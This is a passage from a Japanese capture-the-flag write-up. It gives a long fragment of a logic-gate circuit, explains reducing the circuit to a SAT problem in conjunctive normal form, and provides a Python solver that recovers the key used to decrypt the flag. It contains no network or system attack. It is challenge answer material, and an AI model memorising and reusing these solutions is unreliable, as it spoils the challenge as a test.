[(409, False), (408, False)]), ('or', [(104, True), (408, True)]), ('or', [(40, True), (408, True)]), ('or', [(411, True), (412, True)]), ('or', [(40, True), (104, True)]), ('or', [(413, False), (414, True)]), ('xor', [(41, False), (105, False)]), ('xor', [(416, False), (415, False)]), ('or', [(105, True), (415, True)]), ('or', [(41, True), (415, True)]), ('or', [(418, True), (419, True)]), ('or', [(41, True), (105, True)]), ('or', [(420, False), (421, True)]), ('xor', [(42, False), (106, False)]), ('xor', [(423, False), (422, False)]), ('or', [(106, True), (422, True)]), ('or', [(42, True), (422, True)]), ('or', [(425, True), (426, True)]), ('or', [(42, True), (106, True)]), ('or', [(427, False), (428, True)]), ('xor', [(43, False), (107, False)]), ('xor', [(430, False), (429, False)]), ('or', [(107, True), (429, True)]), ('or', [(43, True), (429, True)]), ('or', [(432, True), (433, True)]), ('or', [(43, True), (107, True)]), ('or', [(434, False), (435, True)]), ('xor', [(44, False), (108, False)]), ('xor', [(437, False), (436, False)]), ('or', [(108, True), (436, True)]), ('or', [(44, True), (436, True)]), ('or', [(439, True), (440, True)]), ('or', [(44, True), (108, True)]), ('or', [(441, False), (442, True)]), ('xor', [(45, False), (109, False)]), ('xor', [(444, False), (443, False)]), ('or', [(109, True), (443, True)]), ('or', [(45, True), (443, True)]), ('or', [(446, True), (447, True)]), ('or', [(45, True), (109, True)]), ('or', [(448, False), (449, True)]), ('xor', [(46, False), (110, False)]), ('xor', [(451, False), (450, False)]), ('or', [(110, True), (450, True)]), ('or', [(46, True), (450, True)]), ('or', [(453, True), (454, True)]), ('or', [(46, True), (110, True)]), ('or', [(455, False), (456, True)]), ('xor', [(47, False), (111, False)]), ('xor', [(458, False), (457, False)]), ('or', [(111, True), (457, True)]), ('or', [(47, True), (457, True)]), ('or', [(460, True), (461, True)]), ('or', [(47, True), (111, True)]), ('or', [(462, False), (463, True)]), ('xor', [(48, False), (112, False)]), ('xor', [(465, False), (464, False)]), ('or', [(112, True), (464, True)]), ('or', [(48, True), (464, True)]), ('or', [(467, True), (468, True)]), ('or', [(48, True), (112, True)]), ('or', [(469, False), (470, True)]), ('xor', [(49, False), (113, False)]), ('xor', [(472, False), (471, False)]), ('or', [(113, True), (471, True)]), ('or', [(49, True), (471, True)]), ('or', [(474, True), (475, True)]), ('or', [(49, True), (113, True)]), ('or', [(476, False), (477, True)]), ('xor', [(50, False), (114, False)]), ('xor', [(479, False), (478, False)]), ('or', [(114, True), (478, True)]), ('or', [(50, True), (478, True)]), ('or', [(481, True), (482, True)]), ('or', [(50, True), (114, True)]), ('or', [(483, False), (484, True)]), ('xor', [(51, False), (115, False)]), ('xor', [(486, False), (485, False)]), ('or', [(115, True), (485, True)]), ('or', [(51, True), (485, True)]), ('or', [(488, True), (489, True)]), ('or', [(51, True), (115, True)]), ('or', [(490, False), (491, True)]), ('xor', [(52, False), (116, False)]), ('xor', [(493, False), (492, False)]), ('or', [(116, True), (492, True)]), ('or', [(52, True), (492, True)]), ('or', [(495, True), (496, True)]), ('or', [(52, True), (116, True)]), ('or', [(497, False), (498, True)]), ('xor', [(53, False), (117, False)]), ('xor', [(500, False), (499, False)]), ('or', [(117, True), (499, True)]), ('or', [(53, True), (499, True)]), ('or', [(502, True), (503, True)]), ('or', [(53, True), (117, True)]), ('or', [(504, False), (505, True)]), ('xor', [(54, False), (118, False)]), ('xor', [(507, False), (506, False)]), ('or', [(118, True), (506, True)]), ('or', [(54, True), (506, True)]), ('or', [(509, True), (510, True)]), ('or', [(54, True), (118, True)]), ('or', [(511, False), (512, True)]), ('xor', [(55, False), (119, False)]), ('xor', [(514, False), (513, False)]), ('or', [(119, True), (513, True)]), ('or', [(55, True), (513, True)]), ('or', [(516, True), (517, True)]), ('or', [(55, True), (119, True)]), ('or', [(518, False), (519, True)]), ('xor', [(56, False), (120, False)]), ('xor', [(521, False), (520, False)]), ('or', [(120, True), (520, True)]), ('or', [(56, True), (520, True)]), ('or', [(523, True), (524, True)]), ('or', [(56, True), (120, True)]), ('or', [(525, False), (526, True)]), ('xor', [(57, False), (121, False)]), ('xor', [(528, False), (527, False)]), ('or', [(121, True), (527, True)]), ('or', [(57, True), (527, True)]), ('or', [(530, True), (531, True)]), ('or', [(57, True), (121, True)]), ('or', [(532, False), (533, True)]), ('xor', [(58, False), (122, False)]), ('xor', [(535, False), (534, False)]), ('or', [(122, True), (534, True)]), ('or', [(58, True), (534, True)]), ('or', [(537, True), (538, True)]), ('or', [(58, True), (122, True)]), ('or', [(539, False), (540, True)]), ('xor', [(59, False), (123, False)]), ('xor', [(542, False), (541, False)]), ('or', [(123, True), (541, True)]), ('or', [(59, True), (541, True)]), ('or', [(544, True), (545, True)]), ('or', [(59, True), (123, True)]), ('or', [(546, False), (547, True)]), ('xor', [(60, False), (124, False)]), ('xor', [(549, False), (548, False)]), ('or', [(124, True), (548, True)]), ('or', [(60, True), (548, True)]), ('or', [(551, True), (552, True)]), ('or', [(60, True), (124, True)]), ('or', [(553, False), (554, True)]), ('xor', [(61, False), (125, False)]), ('xor', [(556, False), (555, False)]), ('or', [(125, True), (555, True)]), ('or', [(61, True), (555, True)]), ('or', [(558, True), (559, True)]), ('or', [(61, True), (125, True)]), ('or', [(560, False), (561, True)]), ('xor', [(62, False), (126, False)]), ('xor', [(563, False), (562, False)]), ('or', [(126, True), (562, True)]), ('or', [(62, True), (562, True)]), ('or', [(565, True), (566, True)]), ('or', [(62, True), (126, True)]), ('or', [(567, False), (568, True)]), ('xor', [(63, False), (127, False)]), ('xor', [(570, False), (569, False)]), ('xor', [(0, False), (128, False)]), ('xor', [(572, False), (128, True)]), ('or', [(128, True), (128, False)]), ('or', [(574, True), (132, True)]), ('or', [(0, True), (128, True)]), ('or', [(575, False), (576, True)]), ('xor', [(1, False), (64, False)]), ('xor', [(578, False), (577, False)]), ('or', [(64, True), (577, True)]), ('or', [(1, True), (577, True)]), ('or', [(580, True), (581, True)]), ('or', [(1, True), (64, True)]), ('or', [(582, False), (583, True)]), ('xor', [(2, False), (65, False)]), ('xor', [(585, False), (584, False)]), ('or', [(65, True), (584, True)]), ('or', [(2, True), (584, True)]), ('or', [(587, True), (588, True)]), ('or', [(2, True), (65, True)]), ('or', [(589, False), (590, True)]), ('xor', [(3, False), (66, False)]), ('xor', [(592, False), (591, False)]), ('or', [(66, True), (591, True)]), ('or', [(3, True), (591, True)]), ('or', [(594, True), (595, True)]), ('or', [(3, True), (66, True)]), ('or', [(596, False), (597, True)]), ('xor', [(4, False), (67, False)]), ('xor', [(599, False), (598, False)]), ('or', [(67, True), (598, True)]), ('or', [(4, True), (598, True)]), ('or', [(601, True), (602, True)]), ('or', [(4, True), (67, True)]), ('or', [(603, False), (604, True)]), ('xor', [(5, False), (68, False)]), ('xor', [(606, False), (605, False)]), ('or', [(68, True), (605, True)]), ('or', [(5, True), (605, True)]), ('or', [(608, True), (609, True)]), ('or', [(5, True), (68, True)]), ('or', [(610, False), (611, True)]), ('xor', [(6, False), (69, False)]), ('xor', [(613, False), (612, False)]), ('or', [(69, True), (612, True)]), ('or', [(6, True), (612, True)]), ('or', [(615, True), (616, True)]), ('or', [(6, True), (69, True)]), ('or', [(617, False), (618, True)]), ('xor', [(7, False), (70, False)]), ('xor', [(620, False), (619, False)]), ('or', [(70, True), (619, True)]), ('or', [(7, True), (619, True)]), ('or', [(622, True), (623, True)]), ('or', [(7, True), (70, True)]), ('or', [(624, False), (625, True)]), ('xor', [(8, False), (71, False)]), ('xor', [(627, False), (626, False)]), ('or', [(71, True), (626, True)]), ('or', [(8, True), (626, True)]), ('or', [(629, True), (630, True)]), ('or', [(8, True), (71, True)]), ('or', [(631, False), (632, True)]), ('xor', [(9, False), (72, False)]), ('xor', [(634, False), (633, False)]), ('or', [(72, True), (633, True)]), ('or', [(9, True), (633, True)]), ('or', [(636, True), (637, True)]), ('or', [(9, True), (72, True)]), ('or', [(638, False), (639, True)]), ('xor', [(10, False), (73, False)]), ('xor', [(641, False), (640, False)]), ('or', [(73, True), (640, True)]), ('or', [(10, True), (640, True)]), ('or', [(643, True), (644, True)]), ('or', [(10, True), (73, True)]), ('or', [(645, False), (646, True)]), ('xor', [(11, False), (74, False)]), ('xor', [(648, False), (647, False)]), ('or', [(74, True), (647, True)]), ('or', [(11, True), (647, True)]), ('or', [(650, True), (651, True)]), ('or', [(11, True), (74, True)]), ('or', [(652, False), (653, True)]), ('xor', [(12, False), (75, False)]), ('xor', [(655, False), (654, False)]), ('or', [(75, True), (654, True)]), ('or', [(12, True), (654, True)]), ('or', [(657, True), (658, True)]), ('or', [(12, True), (75, True)]), ('or', [(659, False), (660, True)]), ('xor', [(13, False), (76, False)]), ('xor', [(662, False), (661, False)]), ('or', [(76, True), (661, True)]), ('or', [(13, True), (661, True)]), ('or', [(664, True), (665, True)]), ('or', [(13, True), (76, True)]), ('or', [(666, False), (667, True)]), ('xor', [(14, False), (77, False)]), ('xor', [(669, False), (668, False)]), ('or', [(77, True), (668, True)]), ('or', [(14, True), (668, True)]), ('or', [(671, True), (672, True)]), ('or', [(14, True), (77, True)]), ('or', [(673, False), (674, True)]), ('xor', [(15, False), (78, False)]), ('xor', [(676, False), (675, False)]), ('or', [(78, True), (675, True)]), ('or', [(15, True), (675, True)]), ('or', [(678, True), (679, True)]), ('or', [(15, True), (78, True)]), ('or', [(680, False), (681, True)]), ('xor', [(16, False), (79, False)]), ('xor', [(683, False), (682, False)]), ('or', [(79, True), (682, True)]), ('or', [(16, True), (682, True)]), ('or', [(685, True), (686, True)]), ('or', [(16, True), (79, True)]), ('or', [(687, False), (688, True)]), ('xor', [(17, False), (80, False)]), ('xor', [(690, False), (689, False)]), ('or', [(80, True), (689, True)]), ('or', [(17, True), (689, True)]), ('or', [(692, True), (693, True)]), ('or', [(17, True), (80, True)]), ('or', [(694, False), (695, True)]), ('xor', [(18, False), (81, False)]), ('xor', [(697, False), (696, False)]), ('or', [(81, True), (696, True)]), ('or', [(18, True), (696, True)]), ('or', [(699, True), (700, True)]), ('or', [(18, True), (81, True)]), ('or', [(701, False), (702, True)]), ('xor', [(19, False), (82, False)]), ('xor', [(704, False), (703, False)]), ('or', [(82, True), (703, True)]), ('or', [(19, True), (703, True)]), ('or', [(706, True), (707, True)]), ('or', [(19, True), (82, True)]), ('or', [(708, False), (709, True)]), ('xor', [(20, False), (83, False)]), ('xor', [(711, False), (710, False)]), ('or', [(83, True), (710, True)]), ('or', [(20, True), (710, True)]), ('or', [(713, True), (714, True)]), ('or', [(20, True), (83, True)]), ('or', [(715, False), (716, True)]), ('xor', [(21, False), (84, False)]), ('xor', [(718, False), (717, False)]), ('or', [(84, True), (717, True)]), ('or', [(21, True), (717, True)]), ('or', [(720, True), (721, True)]), ('or', [(21, True), (84, True)]), ('or', [(722, False), (723, True)]), ('xor', [(22, False), (85, False)]), ('xor', [(725, False), (724, False)]), ('or', [(85, True), (724, True)]), ('or', [(22, True), (724, True)]), ('or', [(727, True), (728, True)]), ('or', [(22, True), (85, True)]), ('or', [(729, False), (730, True)]), ('xor', [(23, False), (86, False)]), ('xor', [(732, False), (731, False)]), ('or', [(86, True), (731, True)]), ('or', [(23, True), (731, True)]), ('or', [(734, True), (735, True)]), ('or', [(23, True), (86, True)]), ('or', [(736, False), (737, True)]), ('xor', [(24, False), (87, False)]), ('xor', [(739, False), (738, False)]), ('or', [(87, True), (738, True)]), ('or', [(24, True), (738, True)]), ('or', [(741, True), (742, True)]), ('or', [(24, True), (87, True)]), ('or', [(743, False), (744, True)]), ('xor', [(25, False), (88, False)]), ('xor', [(746, False), (745, False)]), ('or', [(88, True), (745, True)]), ('or', [(25, True), (745, True)]), ('or', [(748, True), (749, True)]), ('or', [(25, True), (88, True)]), ('or', [(750, False), (751, True)]), ('xor', [(26, False), (89, False)]), ('xor', [(753, False), (752, False)]), ('or', [(89, True), (752, True)]), ('or', [(26, True), (752, True)]), ('or', [(755, True), (756, True)]), ('or', [(26, True), (89, True)]), ('or', [(757, False), (758, True)]), ('xor', [(27, False), (90, False)]), ('xor', [(760, False), (759, False)]), ('or', [(90, True), (759, True)]), ('or', [(27, True), (759, True)]), ('or', [(762, True), (763, True)]), ('or', [(27, True), (90, True)]), ('or', [(764, False), (765, True)]), ('xor', [(28, False), (91, False)]), ('xor', [(767, False), (766, False)]), ('or', [(91, True), (766, True)]), ('or', [(28, True), (766, True)]), ('or', [(769, True), (770, True)]), ('or', [(28, True), (91, True)]), ('or', [(771, False), (772, True)]), ('xor', [(29, False), (92, False)]), ('xor', [(774, False), (773, False)]), ('or', [(92, True), (773, True)]), ('or', [(29, True), (773, True)]), ('or', [(776, True), (777, True)]), ('or', [(29, True), (92, True)]), ('or', [(778, False), (779, True)]), ('xor', [(30, False), (93, False)]), ('xor', [(781, False), (780, False)]), ('or', [(93, True), (780, True)]), ('or', [(30, True), (780, True)]), ('or', [(783, True), (784, True)]), ('or', [(30, True), (93, True)]), ('or', [(785, False), (786, True)]), ('xor', [(31, False), (94, False)]), ('xor', [(788, False), (787, False)]), ('or', [(94, True), (787, True)]), ('or', [(31, True), (787, True)]), ('or', [(790, True), (791, True)]), ('or', [(31, True), (94, True)]), ('or', [(792, False), (793, True)]), ('xor', [(32, False), (95, False)]), ('xor', [(795, False), (794, False)]), ('or', [(95, True), (794, True)]), ('or', [(32, True), (794, True)]), ('or', [(797, True), (798, True)]), ('or', [(32, True), (95, True)]), ('or', [(799, False), (800, True)]), ('xor', [(33, False), (96, False)]), ('xor', [(802, False), (801, False)]), ('or', [(96, True), (801, True)]), ('or', [(33, True), (801, True)]), ('or', [(804, True), (805, True)]), ('or', [(33, True), (96, True)]), ('or', [(806, False), (807, True)]), ('xor', [(34, False), (97, False)]), ('xor', [(809, False), (808, False)]), ('or', [(97, True), (808, True)]), ('or', [(34, True), (808, True)]), ('or', [(811, True), (812, True)]), ('or', [(34, True), (97, True)]), ('or', [(813, False), (814, True)]), ('xor', [(35, False), (98, False)]), ('xor', [(816, False), (815, False)]), ('or', [(98, True), (815, True)]), ('or', [(35, True), (815, True)]), ('or', [(818, True), (819, True)]), ('or', [(35, True), (98, True)]), ('or', [(820, False), (821, True)]), ('xor', [(36, False), (99, False)]), ('xor', [(823, False), (822, False)]), ('or', [(99, True), (822, True)]), ('or', [(36, True), (822, True)]), ('or', [(825, True), (826, True)]), ('or', [(36, True), (99, True)]), ('or', [(827, False), (828, True)]), ('xor', [(37, False), (100, False)]), ('xor', [(830, False), (829, False)]), ('or', [(100, True), (829, True)]), ('or', [(37, True), (829, True)]), ('or', [(832, True), (833, True)]), ('or', [(37, True), (100, True)]), ('or', [(834, False), (835, True)]), ('xor', [(38, False), (101, False)]), ('xor', [(837, False), (836, False)]), ('or', [(101, True), (836, True)]), ('or', [(38, True), (836, True)]), ('or', [(839, True), (840, True)]), ('or', [(38, True), (101, True)]), ('or', [(841, False), (842, True)]), ('xor', [(39, False), (102, False)]), ('xor', [(844, False), (843, False)]), ('or', [(102, True), (843, True)]), ('or', [(39, True), (843, True)]), ('or', [(846, True), (847, True)]), ('or', [(39, True), (102, True)]), ('or', [(848, False), (849, True)]), ('xor', [(40, False), (103, False)]), ('xor', [(851, False), (850, False)]), ('or', [(103, True), (850, True)]), ('or', [(40, True), (850, True)]), ('or', [(853, True), (854, True)]), ('or', [(40, True), (103, True)]), ('or', [(855, False), (856, True)]), ('xor', [(41, False), (104, False)]), ('xor', [(858, False), (857, False)]), ('or', [(104, True), (857, True)]), ('or', [(41, True), (857, True)]), ('or', [(860, True), (861, True)]), ('or', [(41, True), (104, True)]), ('or', [(862, False), (863, True)]), ('xor', [(42, False), (105, False)]), ('xor', [(865, False), (864, False)]), ('or', [(105, True), (864, True)]), ('or', [(42, True), (864, True)]), ('or', [(867, True), (868, True)]), ('or', [(42, True), (105, True)]), ('or', [(869, False), (870, True)]), ('xor', [(43, False), (106, False)]), ('xor', [(872, False), (871, False)]), ('or', [(106, True), (871, True)]), ('or', [(43, True), (871, True)]), ('or', [(874, True), (875, True)]), ('or', [(43, True), (106, True)]), ('or', [(876, False), (877, True)]), ('xor', [(44, False), (107, False)]), ('xor', [(879, False), (878, False)]), ('or', [(107, True), (878, True)]), ('or', [(44, True), (878, True)]), ('or', [(881, True), (882, True)]), ('or', [(44, True), (107, True)]), ('or', [(883, False), (884, True)]), ('xor', [(45, False), (108, False)]), ('xor', [(886, False), (885, False)]), ('or', [(108, True), (885, True)]), ('or', [(45, True), (885, True)]), ('or', [(888, True), (889, True)]), ('or', [(45, True), (108, True)]), ('or', [(890, False), (891, True)]), ('xor', [(46, False), (109, False)]), ('xor', [(893, False), (892, False)]), ('or', [(109, True), (892, True)]), ('or', [(46, True), (892, True)]), ('or', [(895, True), (896, True)]), ('or', [(46, True), (109, True)]), ('or', [(897, False), (898, True)]), ('xor', [(47, False), (110, False)]), ('xor', [(900, False), (899, False)]), ('or', [(110, True), (899, True)]), ('or', [(47, True), (899, True)]), ('or', [(902, True), (903, True)]), ('or', [(47, True), (110, True)]), ('or', [(904, False), (905, True)]), ('xor', [(48, False), (111, False)]), ('xor', [(907, False), (906, False)]), ('or', [(111, True), (906, True)]), ('or', [(48, True), (906, True)]), ('or', [(909, True), (910, True)]), ('or', [(48, True), (111, True)]), ('or', [(911, False), (912, True)]), ('xor', [(49, False), (112, False)]), ('xor', [(914, False), (913, False)]), ('or', [(112, True), (913, True)]), ('or', [(49, True), (913, True)]), ('or', [(916, True), (917, True)]), ('or', [(49, True), (112, True)]), ('or', [(918, False), (919, True)]), ('xor', [(50, False), (113, False)]), ('xor', [(921, False), (920, False)]), ('or', [(113, True), (920, True)]), ('or', [(50, True), (920, True)]), ('or', [(923, True), (924, True)]), ('or', [(50, True), (113, True)]), ('or', [(925, False), (926, True)]), ('xor', [(51, False), (114, False)]), ('xor', [(928, False), (927, False)]), ('or', [(114, True), (927, True)]), ('or', [(51, True), (927, True)]), ('or', [(930, True), (931, True)]), ('or', [(51, True), (114, True)]), ('or', [(932, False), (933, True)]), ('xor', [(52, False), (115, False)]), ('xor', [(935, False), (934, False)]), ('or', [(115, True), (934, True)]), ('or', [(52, True), (934, True)]), ('or', [(937, True), (938, True)]), ('or', [(52, True), (115, True)]), ('or', [(939, False), (940, True)]), ('xor', [(53, False), (116, False)]), ('xor', [(942, False), (941, False)]), ('or', [(116, True), (941, True)]), ('or', [(53, True), (941, True)]), ('or', [(944, True), (945, True)]), ('or', [(53, True), (116, True)]), ('or', [(946, False), (947, True)]), ('xor', [(54, False), (117, False)]), ('xor', [(949, False), (948, False)]), ('or', [(117, True), (948, True)]), ('or', [(54, True), (948, True)]), ('or', [(951, True), (952, True)]), ('or', [(54, True), (117, True)]), ('or', [(953, False), (954, True)]), ('xor', [(55, False), (118, False)]), ('xor', [(956, False), (955, False)]), ('or', [(118, True), (955, True)]), ('or', [(55, True), (955, True)]), ('or', [(958, True), (959, True)]), ('or', [(55, True), (118, True)]), ('or', [(960, False), (961, True)]), ('xor', [(56, False), (119, False)]), ('xor', [(963, False), (962, False)]), ('or', [(119, True), (962, True)]), ('or', [(56, True), (962, True)]), ('or', [(965, True), (966, True)]), ('or', [(56, True), (119, True)]), ('or', [(967, False), (968, True)]), ('xor', [(57, False), (120, False)]), ('xor', [(970, False), (969, False)]), ('or', [(120, True), (969, True)]), ('or', [(57, True), (969, True)]), ('or', [(972, True), (973, True)]), ('or', [(57, True), (120, True)]), ('or', [(974, False), (975, True)]), ('xor', [(58, False), (121, False)]), ('xor', [(977, False), (976, False)]), ('or', [(121, True), (976, True)]), ('or', [(58, True), (976, True)]), ('or', [(979, True), (980, True)]), ('or', [(58, True), (121, True)]), ('or', [(981, False), (982, True)]), ('xor', [(59, False), (122, False)]), ('xor', [(984, False), (983, False)]), ('or', [(122, True), (983, True)]), ('or', [(59, True), (983, True)]), ('or', [(986, True), (987, True)]), ('or', [(59, True), (122, True)]), ('or', [(988, False), (989, True)]), ('xor', [(60, False), (123, False)]), ('xor', [(991, False), (990, False)]), ('or', [(123, True), (990, True)]), ('or', [(60, True), (990, True)]), ('or', [(993, True), (994, True)]), ('or', [(60, True), (123, True)]), ('or', [(995, False), (996, True)]), ('xor', [(61, False), (124, False)]), ('xor', [(998, False), (997, False)]), ('or', [(124, True), (997, True)]), ('or', [(61, True), (997, True)]), ('or', [(1000, True), (1001, True)]), ('or', [(61, True), (124, True)]), ('or', [(1002, False), (1003, True)]), ('xor', [(62, False), (125, False)]), ('xor', [(1005, False), (1004, False)]), ('or', [(125, True), (1004, True)]), ('or', [(62, True), (1004, True)]), ('or', [(1007, True), (1008, True)]), ('or', [(62, True), (125, True)]), ('or', [(1009, False), (1010, True)]), ('xor', [(63, False), (126, False)]), ('xor', [(1012, False), (1011, False)]), ('or', [(130, False), (137, False)]), ('or', [(144, True), (151, False)]), ('or', [(1014, False), (1015, False)]), ('or', [(158, False), (165, True)]), ('or', [(172, False), (179, False)]), ('or', [(1017, False), (1018, False)]), ('or', [(1016, False), (1019, False)]), ('or', [(186, True), (193, False)]), ('or', [(200, False), (207, True)]), ('or', [(1021, False), (1022, False)]), ('or', [(214, True), (221, True)]), ('or', [(228, True), (235, False)]), ('or', [(1024, False), (1025, False)]), ('or', [(1023, False), (1026, False)]), ('or', [(1020, False), (1027, False)]), ('or', [(242, True), (249, False)]), ('or', [(256, False), (263, True)]), ('or', [(1029, False), (1030, False)]), ('or', [(270, False), (277, False)]), ('or', [(284, False), (291, False)]), ('or', [(1032, False), (1033, False)]), ('or', [(1031, False), (1034, False)]), ('or', [(298, True), (305, False)]), ('or', [(312, True), (319, False)]), ('or', [(1036, False), (1037, False)]), ('or', [(326, False), (333, True)]), ('or', [(340, True), (347, False)]), ('or', [(1039, False), (1040, False)]), ('or', [(1038, False), (1041, False)]), ('or', [(1035, False), (1042, False)]), ('or', [(1028, False), (1043, False)]), ('or', [(354, True), (361, False)]), ('or', [(368, False), (375, True)]), ('or', [(1045, False), (1046, False)]), ('or', [(382, True), (389, True)]), ('or', [(396, True), (403, True)]), ('or', [(1048, False), (1049, False)]), ('or', [(1047, False), (1050, False)]), ('or', [(410, False), (417, True)]), ('or', [(424, True), (431, False)]), ('or', [(1052, False), (1053, False)]), ('or', [(438, True), (445, False)]), ('or', [(452, False), (459, False)]), ('or', [(1055, False), (1056, False)]), ('or', [(1054, False), (1057, False)]), ('or', [(1051, False), (1058, False)]), ('or', [(466, True), (473, True)]), ('or', [(480, False), (487, True)]), ('or', [(1060, False), (1061, False)]), ('or', [(494, False), (501, False)]), ('or', [(508, False), (515, False)]), ('or', [(1063, False), (1064, False)]), ('or', [(1062, False), (1065, False)]), ('or', [(522, False), (529, False)]), ('or', [(536, True), (543, True)]), ('or', [(1067, False), (1068, False)]), ('or', [(550, True), (557, True)]), ('or', [(564, False), (571, False)]), ('or', [(1070, False), (1071, False)]), ('or', [(1069, False), (1072, False)]), ('or', [(1066, False), (1073, False)]), ('or', [(1059, False), (1074, False)]), ('or', [(1044, False), (1075, False)]), ('or', [(573, False), (579, False)]), ('or', [(586, True), (593, True)]), ('or', [(1077, False), (1078, False)]), ('or', [(600, True), (607, True)]), ('or', [(614, True), (621, False)]), ('or', [(1080, False), (1081, False)]), ('or', [(1079, False), (1082, False)]), ('or', [(628, True), (635, True)]), ('or', [(642, True), (649, True)]), ('or', [(1084, False), (1085, False)]), ('or', [(656, True), (663, True)]), ('or', [(670, False), (677, True)]), ('or', [(1087, False), (1088, False)]), ('or', [(1086, False), (1089, False)]), ('or', [(1083, False), (1090, False)]), ('or', [(684, True), (691, True)]), ('or', [(698, True), (705, False)]), ('or', [(1092, False), (1093, False)]), ('or', [(712, True), (719, True)]), ('or', [(726, True), (733, True)]), ('or', [(1095, False), (1096, False)]), ('or', [(1094, False), (1097, False)]), ('or', [(740, True), (747, True)]), ('or', [(754, False), (761, True)]), ('or', [(1099, False), (1100, False)]), ('or', [(768, True), (775, True)]), ('or', [(782, True), (789, False)]), ('or', [(1102, False), (1103, False)]), ('or', [(1101, False), (1104, False)]), ('or', [(1098, False), (1105, False)]), ('or', [(1091, False), (1106, False)]), ('or', [(796, True), (803, True)]), ('or', [(810, False), (817, False)]), ('or', [(1108, False), (1109, False)]), ('or', [(824, False), (831, False)]), ('or', [(838, True), (845, False)]), ('or', [(1111, False), (1112, False)]), ('or', [(1110, False), (1113, False)]), ('or', [(852, True), (859, True)]), ('or', [(866, False), (873, True)]), ('or', [(1115, False), (1116, False)]), ('or', [(880, False), (887, False)]), ('or', [(894, False), (901, True)]), ('or', [(1118, False), (1119, False)]), ('or', [(1117, False), (1120, False)]), ('or', [(1114, False), (1121, False)]), ('or', [(908, False), (915, True)]), ('or', [(922, True), (929, False)]), ('or', [(1123, False), (1124, False)]), ('or', [(936, False), (943, True)]), ('or', [(950, False), (957, False)]), ('or', [(1126, False), (1127, False)]), ('or', [(1125, False), (1128, False)]), ('or', [(964, True), (971, False)]), ('or', [(978, False), (985, False)]), ('or', [(1130, False), (1131, False)]), ('or', [(992, False), (999, True)]), ('or', [(1006, True), (1013, True)]), ('or', [(1133, False), (1134, False)]), ('or', [(1132, False), (1135, False)]), ('or', [(1129, False), (1136, False)]), ('or', [(1122, False), (1137, False)]), ('or', [(1107, False), (1138, False)]), ('or', [(1076, False), (1139, False)])], (1140, True)))
```

</details>

では秘密鍵が未知である`map2`に対してどのように初期値を振ればいいのか計算したい訳だけど、それにちょうど良い方法を一つ思いついた。充足可能性問題(SAT)に帰着する方法だ。初期値や後から決定される値を含めて計1141個の論理変数に対して、ある一つの巨大な論理式を立て、そのような論理式を真にするような論理値の割り当て方が存在するのか検証するのがSATである。充足可能性問題については、論理式を[連言標準形](https://ja.wikipedia.org/wiki/%E9%80%A3%E8%A8%80%E6%A8%99%E6%BA%96%E5%BD%A2)で表現さえすればあとは[ライブラリ](https://pypi.org/project/pysat/)が解いてくれるので、我々は論理式をたてるだけで良い。

で、肝心の論理式のたて方であるが、次のようにすれば良い。
- 操作`true`の対象となる変数は必ず真でなければならない。
- 操作`or`の対象となる変数は、必ず元となる2変数の論理和と一致していなければならない。
- 操作`xor`の対象となる変数は、必ず元となる2変数の排他的論理和と一致していなければならない。
- 最後の条件に該当する変数は、必ず偽でなければならない。

2番目と3番目に関しては連言標準形にするのが少しややこしいが、WolframAlphaの力等をかりればなんとかなる。

> 参考:
>
> `P | Q == R`の連言標準形
>
> `(P | Q | !R) & (!P | R) & (!Q | R)`
>
> `P ^ Q == R`の連言標準形
>
> `(!P | !Q | !R) & (!P | Q | R) & (P | !Q | R) & (P | Q | !R)`
>
> 興味がある人は真理値表を書いて同値であることを確認してみるといい

これをソルバに落とす。

<details><summary>solver.py</summary>

```python
#!/usr/local/bin/python2

from hashlib import sha512
from pysat.formula import CNF
from pysat.solvers import Minisat22
import sys

def verify(x, chalbox):
    length, gates, check = chalbox
    b = [(x >> i) & 1 for i in range(length)]
    for name, args in gates:
        if name == 'true':
            b.append(1)
        else:
            u1 = b[args[0][0]] ^ args[0][1]
            u2 = b[args[1][0]] ^ args[1][1]
            if name == 'or':
                b.append(u1 | u2)
            elif name == 'xor':
                b.append(u1 ^ u2)
    r = []
    for i in range(len(b)):
        if b[i]:
            r.append(i + 1)
        else:
            r.append(-(i + 1))
    print(r)
    return b[check[0]] ^ check[1]
    
def crack(chalBox):
    length, gates, check = chalbox
    formula = CNF()
    c = length + 1
    formula.append([-(check[0] + 1) if check[1] else (check[0] + 1)])
    for name, args in gates:
        if name == 'true':
            formula.append([c])
        else:
            u = -(args[0][0] + 1) if args[0][1] else (args[0][0] + 1)
            v = -(args[1][0] + 1) if args[1][1] else (args[1][0] + 1)
            if name == 'or':
                formula.append([u, v, -c])
                formula.append([-u, c])
                formula.append([-v, c])
            elif name == 'xor':
                formula.append([-u, -v, -c])
                formula.append([u, v, -c])
                formula.append([u, -v, c])
                formula.append([-u, v, c])
        c += 1
    with Minisat22(bootstrap_with=formula.clauses) as sol:
        if sol.solve():
            model = sol.get_model()
            print(sol.get_model())
            ans = 0
            for i in range(length):
                if model[i] > 0:
                    ans += (1 << i)
            print(ans)
        else:
            print(sol.get_proof())


def dec(x, w):
    z = int(sha512(str(int(x))).hexdigest(), 16)
    return '{:x}'.format(w ^ z).decode('hex')

if __name__ == '__main__':
    if len(sys.argv) < 3:
        print 'Usage: ' + sys.argv[0] + ' <key> <map.txt>'
        print 'Example: Try Running ' + sys.argv[0] + ' 11443513758266689915 map1.txt'
        exit(1)
    with open(sys.argv[2], 'r') as f:
        cipher, chalbox = eval(f.read())
    
    crack(chalbox)
    key = int(sys.argv[1]) % (1 << chalbox[0])
    print 'Attempting to decrypt ' + sys.argv[2] + '...'
    if verify(key, chalbox):
        print 'Congrats the flag for ' + sys.argv[2] + ' is:', dec(key, cipher)
    else:
        print 'Wrong key for ' + sys.argv[2] + '.'
```

</details>

これを実行することで、先ほど立てた論理式を真にする初期値`219465169949186335766963147192904921805`が求まる。

<details><summary>log</summary>

```
$ ./decrypt.py 219465169949186335766963147192904921805 map2.txt 
